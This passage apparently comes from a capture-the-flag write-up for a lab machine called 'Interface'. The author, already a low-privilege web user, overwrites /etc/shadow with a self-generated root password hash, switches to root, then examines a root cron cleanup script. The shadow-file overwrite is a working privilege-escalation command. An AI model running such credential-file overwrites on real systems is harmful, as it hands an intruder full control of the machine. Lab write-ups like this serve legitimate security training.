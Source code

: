 I’ll generate a password hash using `openssl`:

```

www-data@interface:~$ openssl passwd -6 0xdf0xdf
$6$b3swpjX7i9uUl2Tt$QgeVADzJcbbszwzBgrdFb2uI6EA8gabZvhPXbIrhWhfVljCqSsmmsalI97DfI3SYUX9SSqOjYo9AvVZZAPwaK0

```

Now I’ll write an entry in the shadow to match the format described [here](https://linuxize.com/post/etc-shadow-file/):

```

www-data@interface:~$ echo 'root:$6$b3swpjX7i9uUl2Tt$QgeVADzJcbbszwzBgrdFb2uI6EA8gabZvhPXbIrhWhfVljCqSsmmsalI97DfI3SYUX9SSqOjYo9AvVZZAPwaK0:17736:0:99999:7:::' > /etc/shadow

```

It is important to use single quotes on that `echo`, or the `$` will be evaluated as variables. With this in place, I can `su` as root using the password “0xdf0xdf”:

```

www-data@interface:~$ su -
Password: 
root@interface:~#

```

### Script Analysis

There’s a cleanup script running as root:

```

root@interface:~# crontab -l
...[snip]...
# m h  dom mon dow   command
*/2 * * * * /usr/local/sbin/cleancache.sh
*/5 * * * * /root/clean.sh

```

The one that runs every two minutes is the one meant to be exploited. The one running every five is meant to cleanup artifacts from players for the foothold exploitation.

Today, that script is:

```

#! /bin/bash
find /var/www/api/vendor/dompdf/dompdf/lib/fonts/ -type f -cmin -5 -exec rm {} \;
cp /root/font_cache/dompdf_font_family_cache.php.bak /root/font_cache/dompdf_font_family_cache.php
chown www-data /root/font_cache/dompdf_font_family_cache.php
chgrp www-data /root/font_cache/dompdf_font_family_cache.php
mv /root/font_cache/dompdf_font_family_cache.php /var/www/api/vendor/dompdf/dompdf/lib/fonts/dompdf_font_family_cache.php

```
